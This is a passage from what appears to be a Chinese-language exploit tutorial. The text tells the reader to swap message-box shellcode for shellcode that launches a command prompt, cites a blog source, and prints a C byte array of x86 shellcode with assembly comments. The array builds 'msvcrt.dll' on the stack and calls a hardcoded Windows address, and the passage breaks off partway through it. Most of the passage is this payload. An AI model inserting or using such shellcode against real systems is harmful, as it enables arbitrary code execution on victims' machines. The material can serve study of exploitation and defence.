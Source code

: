 ![enter image description here](img/img94_png.jpg)

![enter image description here](img/img95_u1_png.jpg)

下面只需要将弹出 msgbox 的 shellcode 修改为弹出 cmd 命令行的 shellcode，继续搜索 cmd shellcode， shellcode 启动 CMD http://blog.sina.com.cn/s/blog_7cb57750010137y4.html 将其中的 shellcode

```
char shellcode[]=
//打开 CMD 的 shellcode
"\x55"                   //push ebp
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xF5\x6D"       //mov byte ptr[ebp-0Bh], 6Dh
"\xC6\x45\xF6\x73"       //mov byte ptr[ebp-0Ah], 73h
"\xC6\x45\xF7\x76"       //mov byte ptr[ebp-09h], 76h
"\xC6\x45\xF8\x63"       //mov byte ptr[ebp-08h], 63h
"\xC6\x45\xF9\x72"       //mov byte ptr[ebp-07h], 72h
"\xC6\x45\xFA\x74"       //mov byte ptr[ebp-06h], 74h
"\xC6\x45\xFB\x2E"       //mov byte ptr[ebp-05h], 2Eh
"\xC6\x45\xFC\x64"       //mov byte ptr[ebp-04h], 64h
"\xC6\x45\xFD\x6C"       //mov byte ptr[ebp-03h], 6Ch
"\xC6\x45\xFE\x6C"       //mov byte ptr[ebp-02h], 6Ch
"\x8D\x45\xF5"           //lea eax, [ebp-0Bh]
"\x50"                   //push eax
"\xBA\x7B\x1D\x80\x7C"   //mov edx, 0x7C801D7Bh
"\xFF\xD2"               //call edx
"\x83\xC4\x0C"           //add esp, 0Ch
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
```
